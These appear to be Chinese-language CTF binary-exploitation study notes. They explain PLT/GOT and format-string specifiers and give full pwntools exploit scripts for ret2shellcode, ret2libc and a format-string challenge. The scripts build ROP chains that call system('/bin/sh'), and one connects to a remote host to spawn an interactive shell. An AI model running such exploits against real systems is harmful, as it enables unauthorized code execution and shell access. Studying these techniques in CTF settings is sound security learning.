

## Pre

1. `plt, got`
	1. `write.plt`相当于`call write`，执行了两个动作：
		1. 将指针跳转到 write 真实地址
		2. 将返回地址压栈
	2. `write.got`仅将指针跳转到 write 真实地址

## ret2shellcode

```Python
#!/usr/bin/env python
from pwn import *
context(os='linux', arch='amd64')
# sh = process('./pwn')
sh = remote("124.223.159.125", 9024)
shellcode = asm(shellcraft.sh())
print(shellcode)
print(len(shellcode))
print(list(shellcode))
print(shellcode.ljust(48, b'A'))
# buf2_addr = 0x804a080
sh.sendline(shellcode.ljust(48, b'A'))
sh.interactive()
sh.close()
```

## ret2libc

ret2libc 即控制函数的执行 libc 中的函数，通常是返回至某个函数的 plt 处或者函数的具体位置 (即函数对应的 got 表项的内容)。一般情况下，我们会选择执行 system("/bin/sh")，故而此时我们需要知道 system 函数的地址。
```Python
from pwn import *
from LibcSearcher import LibcSearcher
sh = process('./pwn')
elf = ELF('./pwn')
puts_plt = elf.plt['puts']
main = elf.symbols['main']
libc_start_main_got = elf.got['__libc_start_main']
pop_rdi_addr = 0x4011c5
print(hex(libc_start_main_got))
payload = b'A' * 40 + p64(pop_rdi_addr) + p64(libc_start_main_got) + p64(puts_plt) + p64(main)
print(''.join(["%02x"%i for i in payload]))
sh.sendlineafter(b'Fine, give you a gift, please write to me:\n', payload)
sh.recvline()
libc_start_main_addr = sh.recvline()
libc_start_main_addr = libc_start_main_addr[:len(libc_start_main_addr) - 1]
libc_start_main_addr = u64(libc_start_main_addr.ljust(8, b'\x00'))
libc = LibcSearcher('__libc_start_main', libc_start_main_addr)
libcbase = libc_start_main_addr - libc.dump('__libc_start_main')
system_addr = libcbase + libc.dump('system')
sh_str_addr = libcbase + next(elf.libc.search(b'/bin/sh'))
# sh_str_addr = libc.dump('str_bin_sh') + libc_base

print(f"Get {hex(system_addr) = }")
print(f"Get {hex(sh_str_addr) = }")
print(f"Get {hex(libcbase) = }")
payload = b'A' * 40 + p64(pop_rdi_addr + 1) + p64(pop_rdi_addr) + p64(sh_str_addr) + p64(system_addr) 

sh.sendlineafter(b'Fine, give you a gift, please write to me:\n', payload)
sh.interactive()
sh.close()
```
1. `b'A' * 40`
2. `p64(pop_rdi_addr + 1)`：`ret`地址
	2. 
3. `p64(pop_rdi_addr`：`pop rdi;ret;`地址
4. `p64(sh_str_addr)`
5. `p64(system_addr)`

## fmt

### definition
格式化字符串的格式如下

`%[parameter][flags][field width][.precision][length]type`

以下几个 pattern 中的对应选择需要重点关注
- parameter
    - n$，获取格式化字符串中的指定参数
- flag
	- hh 对于整数类型，printf期待一个从char提升的int尺寸的整型参数。
	- h 对于整数类型，printf期待一个从short提升的int尺寸的整型参数。
- field width
    - 输出的最小宽度
- precision
    - 输出的最大长度
- length，输出的长度
    - hh，输出一个字节
    - h，输出一个双字节
- type
    - d/i，有符号整数
    - u，无符号整数
    - x/X，16 进制 unsigned int 。x 使用小写字母；X 使用大写字母。如果指定了精度，则输出的数字不足时在左侧补 0。默认精度为 1。精度为 0 且值为 0，则输出为空。
    - o，8 进制 unsigned int 。如果指定了精度，则输出的数字不足时在左侧补 0。默认精度为 1。精度为 0 且值为 0，则输出为空。
    - s，如果没有用 l 标志，输出 null 结尾字符串直到精度规定的上限；如果没有指定精度，则输出所有字节。如果用了 l 标志，则对应函数参数指向 wchar_t 型的数组，输出时把每个宽字符转化为多字节字符，相当于调用 wcrtomb 函数。
    - c，如果没有用 l 标志，把 int 参数转为 unsigned char 型输出；如果用了 l 标志，把 wint_t 参数转为包含两个元素的 wchart_t 数组，其中第一个元素包含要输出的字符，第二个元素为 null 宽字符。
    - p， void * 型，输出对应变量的值。printf("%p",a) 用地址的格式打印变量 a 的值，printf("%p", &a) 打印变量 a 所在的地址。
    - n，不输出字符，但是把已经成功输出的字符个数写入对应的整型指针参数所指的变量。
    - %， '`%`'字面值，不接受任何 flags, width。

1. 利用`%x`来获取对应栈的内存，但建议使用 `%p`，可以不用考虑位数的区别。
2. 利用`%s`来获取变量所对应地址的内容，只不过有零截断。
3. 利用`%order$x`来获取指定参数的值，利用 `%order$s` 来获取指定参数对应地址的内容。
4. 利用`addr%k$s`获取某个指定地址 `addr` 的内容：`%k$s`指向格式化字符串，32或64位的`addr`，使输出函数获取参数时将`addr`解析为字符串
5. `fmtstr_payload(7, {puts_got: system_addr})` 的意思就是，格式化字符串的偏移是 7，希望在 puts_got 地址处写入 system_addr 地址。默认情况下是按照字节来写的。

### challenge

#### 1

```C
__int64 __fastcall read_mess(__int64 a1, int a2)
{
    unsigned int i; // [rsp+18h] [rbp-8h]
    int v4; // [rsp+1Ch] [rbp-4h]

    for ( i = 0; (int)i <= a2; ++i )
    {
        v4 = read(0, (void *)((int)i + a1), 1uLL);
        if ( v4 < 0 )
        {
            perror("read");
            exit(-1);
        }
        if ( !v4 )
            break;
        if ( *(_BYTE *)((int)i + a1) == 10 )
        {
            *(_BYTE *)((int)i + a1) = 0;
            return i;
        }
    }
    return i;
}
unsigned __int64 fmt()
{
    char format[264]; // [rsp+0h] [rbp-110h] BYREF
    unsigned __int64 v2; // [rsp+108h] [rbp-8h]

    v2 = __readfsqword(0x28u);
    puts("wuhu~");
    read_mess(format, 256LL);
    printf(format);
    return v2 - __readfsqword(0x28u);
}
```

##### exp

```Python
from pwn import *

elf = ELF('./pwn')
lib = elf.libc

def fmt():
    p = process('./pwn')
    # 将格式化字符串第38个参数所指向的数的最后一字节改为0x5E
    payload = b'%94c%38$hhn'
    # 输出(fmt返回地址在栈中的地址+0x8)
    payload += b'%40$p'
    # 输出__libc_start_main
    payload += b'%63$p'
    payload = payload.ljust(0x100, b'a')
    # 将格式化字符串第38个参数最后一个字节覆盖为0x88
    payload += b'\x88'

    p.recvuntil(b'~')
    p.send(payload)
    p.recvuntil(b'0x')
    rbp_addr = int(p.recv(12), 16)
    # 检测main的栈底最后一个字节是不是0x90
    #   只有在是的情况下，
    #   前面覆盖为0x88才能使格式化字符串第38个参数所指向的数为fmt的返回地址
    last_num = rbp_addr & 0xff
    if last_num - 8 != 0x88:
        return
    global flag
    flag = 1

    p.recvuntil(b'0x')
    base_addr = int(p.recv(12), 16) - 0x80 - lib.sym['__libc_start_main']  # 0x7f7b2c229e40
    log.success(f"base_addr: {hex(base_addr)}")
    system_addr = base_addr + lib.sym['system']
    pop_rdi = base_addr + 0x000000000002a3e5
    print(hex(pop_rdi))


    p.recvuntil(b'~')
    # 将放入rbp_addr - 0x10的指向的fmt返回时弹出栈的main的栈底值的最后一个字节改为0
    payload = b'%22$hhn'
    # 将放入rbp_addr - 0x8的指向fmt返回地址最后一个字节改为0x13，即返回leave；ret的位置
    payload += b'%19c%23$hhn'
    payload = payload.ljust(0x80, b'a')
    # 上面要更改位置的地址
    payload += p64(rbp_addr - 0x10) + p64(rbp_addr - 0x8)
    # 将 '/bin/sh'放入flag_addr的位置
    # 输入字符串存储的位置中找一块放 '/bin/sh'
    flag_addr = rbp_addr - 0x90
    payload += b'/bin/sh\00'

    payload += p64(pop_rdi + 1) + p64(pop_rdi) + p64(flag_addr) + p64(system_addr)
    # gdb.attach(p)
    # pause()
    # gdb.attach(p, 'breakrva 0x12f9')
    p.sendline(payload)
    p.interactive()
    p.close()

if __name__ == '__main__':
    flag = 0
    while True:
        if flag == 1:
            break
        fmt()

```

